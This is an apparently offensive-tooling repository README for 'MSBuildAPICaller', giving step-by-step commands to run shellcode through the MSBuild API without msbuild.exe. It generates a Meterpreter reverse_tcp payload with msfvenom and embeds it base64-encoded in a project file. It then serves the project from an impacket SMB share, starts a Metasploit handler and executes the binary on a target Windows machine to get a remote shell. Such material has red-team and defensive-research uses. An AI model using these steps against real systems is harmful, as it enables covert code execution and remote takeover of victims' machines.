 # MSBuildAPICaller
 MSBuild Without MSBuild.exe


# How to build and execute

## Step 0: git clone this repo on your Kali Linux machine

```
git clone https://github.com/xax007/MSBuildAPICaller
cd MSBuildAPICaller
```

## Step 1: Build IEShim.cs on your Windows Machine
```
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe /reference:"Microsoft.Build.Framework.dll";"Microsoft.Build.Tasks.v4.0.dll";"Microsoft.Build.Utilities.v4.0.dll" /target:library IEShim.cs
```

## Step 2: Modify `msbuildapicaller.cs` file 

Modify `projectPath` variable on line 60 of `msbuildapicaller.cs` to your needs

Example:   
`string projectPath = '\\\\192.168.1.100\\share\\msbuildapicaller.csproj';`

## Step 3: Generate shellcode

```
msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o payload64.bin LHOST=10.0.0.1 LPORT=2000
``` 
convert the shellcode from binary to base64

```
base64 -w 0 -i /root/payload64.bin > payload64.txt
```  

Replace `<Base64 Encoded x64 Shellcode>`  with your base64 encoded x64 shellcode in `msbuildapicaller.csproj` file


## Step 4: Modify `msbuildapicaller.csproj` fille  

Replace `AssemblyFile` variable in msbuildapicaller.csproj file with the location of your compiled dll from step 1

## Step 5: Build `msbuildapicaller.cs` file

```
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe /reference:"Microsoft.Build.Framework.dll";"Microsoft.Build.dll";"Microsoft.Build.Engine.dll";"Microsoft.Build.Utilities.v4.0.dll";"System.Runtime.dll" /target:exe msbuildapicaller.cs
```

## Step 6: Start a SMB Server via impacket on Kali Linux

```
impacket-smbserver share /msbuild -smb2support
```

## Step 7: Start a Metasploit exploit handler
```
$ msfdb run
msf5> handler -p windows/x64/meterpreter/reverse_tcp -P 4444 -H 1.2.3.4
```
## Step 8: Execute 

execute `msbuildapicaller.exe` file complied from `step 5` on target windows machine


reference: [MSBUILD WITHOUT MSBUILD](https://pentestlaboratories.com/2020/01/27/msbuild-without-msbuild/)
